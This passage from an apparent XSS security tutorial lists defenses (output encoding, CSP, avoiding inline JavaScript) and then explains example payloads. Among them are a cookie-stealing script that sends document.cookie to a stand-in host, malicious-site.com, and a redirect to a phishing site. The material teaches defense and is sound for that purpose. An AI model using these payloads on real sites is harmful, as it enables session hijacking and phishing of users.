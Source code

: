 2. **Output Encoding:**
   - Encode special characters (`<`, `>`, `&`, `"` etc.) to ensure that they are treated as data and not executable code.
   - Use context-specific encoding (e.g., HTML encoding for HTML content, JavaScript encoding for JavaScript).
   
3. **Use Secure HTTP Headers:**
   - Set the `Content-Security-Policy (CSP)` header to control what sources the browser can load and execute.
   - Use the `X-XSS-Protection` header to instruct the browser to block reflected XSS attacks.

4. **Avoid Inline JavaScript:**
   - Inline JavaScript increases the risk of XSS vulnerabilities. Use external JavaScript files and ensure proper escaping when handling dynamic content.

5. **Use Modern Frameworks:**
   - Use frameworks and libraries that automatically handle escaping and output sanitization, like React, Angular, or Django, which provide built-in protection against XSS.

By understanding these types and implementing proper defenses, you can significantly reduce the risk of XSS attacks on your applications.

## **XSS Payloads and Detailed Explanations**

### 1. Basic Script Injection
**Payload:**
```html
<script>alert('XSS');</script>
```
**Explanation:** This simple payload injects a `<script>` tag that executes JavaScript to display an alert box with the message “XSS.” It’s typically used as a quick test to confirm whether an input field or parameter is vulnerable to XSS.

**Use Case:** Initial vulnerability testing during security assessments.

### 2. Cookie Stealing
**Payload:**
```html
<script>document.location='http://malicious-site.com/steal?cookie=' + document.cookie;</script>
```
**Explanation:** This script sends the user's cookies to an attacker-controlled server. If the cookies contain session tokens or authentication data, the attacker can use them to impersonate the user and gain unauthorized access.

**Mitigation Tip:** Use `HTTPOnly` flag for cookies so that JavaScript cannot access them.

### 3. Redirecting Users
**Payload:**
```html
<script>window.location='http://phishing-site.com';</script>
```
**Explanation:** This payload changes the current page location, effectively redirecting the user to a phishing or malicious website. It’s commonly used in phishing attacks to deceive users into providing credentials or other sensitive information.
